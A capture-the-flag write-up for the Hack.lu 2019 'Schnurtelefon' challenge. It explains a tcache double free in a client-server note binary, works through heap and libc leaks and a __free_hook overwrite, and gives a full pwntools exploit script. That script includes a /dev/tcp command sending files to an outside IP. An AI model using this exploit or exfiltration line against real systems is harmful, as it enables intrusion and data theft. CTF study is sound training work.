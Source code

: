 ```yaml
---
title: Schnurtelefon - Hack.lu CTF 2019
date: 2019-10-24 22:00:00
categories:
  - Pwn
  - linux
  - heap
tags:
  - CTF
  - writeup
  - Pwn
---
```


Linux client-server application heap exploitation
<!-- excerpt -->

**Challenge points**: 434
**No. of solves**: 11

There are two binaries; server and client, the user interacts with server via the client. The server is a simple note storage system. The environment has glibc version 2.27 (easy tcache double free corruptions).

There are 5 operations in this note challenge

1. store note
    + client reads the input from the user and sends it to the server
    + The server maintains an array of size 16, allocated pointer of fixed size 0x30 is stored in the first empty location. The client also maintains an array of flags for each location indicating whether busy (flag is non-zero) or free (flag is zero).
    ```c
      dest = malloc(0x20uLL);
      for ( j = &note_storage; *j && j < &end; ++j )
        ;
      *j = dest;
      memcpy(dest, a1 + 2, 0x20uLL);
      result = a2;
      a2[1] = dest;
    ```
    + if the for loop exits with the `j < &end` condition failing,that is, when the table is full, then the new pointer is stored in the 17th index.
    + this leads to the flag being set for the 17th index in the client.

2. delete note
    + client read the index to be freed and sends it to the server only if the flag for the corresponding index is busy.
    + the index is not validated when the flag is checked
    + for loop is buggy, letting us free the 17th index
    ```c
    for ( k = &note_storage; a1[1] != *k && k < &end; ++k )
    ;
    free(*k);
    result = strncpy(a2 + 16, "OK", 0x1FuLL);
    ```
    + the pointer is not nulled out in the table leading to potential UAF/double free

3. get note
    + if the flag is busy then index is send to server to get the data stored in the note.
    + same buggy for loop is used, letting us read from the 17th index

4. change name
    + This functionality gives us the primitives required to exploit the challenge
    + the name string is stored right below the flag array in the client.
    + this means that the 17th index is the first 8 bytes of name
    + so by changing the name we can modify the status of the 17th pointer in the server binary
    + this gives us a `double free` primitive


First we allocate 17 chunks to fill the table and overflow the table by one.
Getting a heap leak is straight forward
+ free the 17 chunk, the flag will now be clear
+ use the `change name` functionality to set the flag
+ free the 17 chunk again
+ set the flag again, and view it to get heap leak

Now that we have heap leak we can corrupt fd of free tcache chunk by using the double free.

To get the libc leak
+ we corrupt the fd with the address to a forged chunk of size 0x110
+ the fake chunk wil be serviced by malloc in a couple of allocations
+ free the fake chunk 8 times, this inserts the chunk into the unsorted bin
+ now view the chunk to get libc leak

Now we perform one more double free and overwrite the fd with `__free_hook`. Then we overwrite it with the address to `system`. The next free will call system.

We are exploiting the server binary. This means that passing "/bin/sh" as the argument to `system` will not get you shell as only the client's stdin and stdout is redirected to us. So we need to spawn a reverse shell.
Command I used : `bash -c 'cat f* >& /dev/tcp/54.93.105.54/7'`. We can only write 0x20 bytes at a time, so the command has to be written in two adjacent chunks. I used overlapping chunks to write the command without any null bytes in between.

```python
from pwn import *

s=process(["./client","1"])
#s=remote("schnurtelefon.forfuture.fluxfingers.net", 1337)
libc = ELF("./libc-2.27.so")

name = "a"*0x10
s.recvuntil("What is your name?")
s.sendline(name)

def add(data):
    s.sendlineafter("5: exit", str(1))
    s.sendafter("what do you want to store?", str(data))

def show(idx):
    s.sendlineafter("5: exit", str(3))
    s.sendlineafter("which note do you want to retrieve?", str(idx))

def free(idx):
    s.sendlineafter("5: exit", str(2))
    s.sendlineafter("which note do you want to delete?", str(idx))

def chgname(name):
    s.sendlineafter("5: exit", str(4))
    s.recvuntil("what's your name?")
    s.sendline(name)

# add chunks to overflow the table by one
add(p64(0) + p64(0x111) + p64(0)) # create a fake chunk which will be needed later for libc leak
for i in range(16):
    add("asd")

log.info("----------loop 1 DONE --------------");
free(17)
chgname(p64(0xdeadbeef)) # mark the idx in client
free(17)
chgname(p64(0xdeadbeef)) # mark the idx in client
show(17)
s.recvline()
heap = u64(s.recv(8))-0x5f0
log.info("Heap = " + hex(heap))
#gdb.attach(s,'b*0x00555555555733')

# corrupt fd to get arbitary allocation
target = heap+0x300 # target with forged size of 0x110 needed for libc leak
free(17)
add(p64(target))
chgname(p64(0))
add("aaa")
chgname(p64(0))
add(p64(0x1337))

# free chunk with overwritten size
free(17)

# free the chunk 7 more times to insert it into the unsorted bin
for i in range(7):
    chgname(p64(0x61))
    free(17)

log.info("----------loop 2 DONE --------------");

# view the unsorted bin chunk to get leak
chgname(p64(0xdeadbeef))
show(17)
s.recvline()
base = u64(s.recv(8))-0x3ebca0
log.info("libc = " + hex(base))
free_hook = base + libc.symbols['__free_hook']
system = base + libc.symbols['system']

# write reverse shell payload
add("f"*0x10 + "3.105.54/7'" + "\x00")
free(0)
add("bash -c 'cat f* >& /dev/tcp/54.9")
chgname(p64(0))

# double free
add(p64(0x1337))
free(17)
chgname(p64(0xdeadbeef))
free(17)

# corrupt fd to get write to free_hook
add(p64(free_hook))
add("c"*0x18)
chgname(p64(0))
add(p64(system))
free(0)

s.interactive()
```
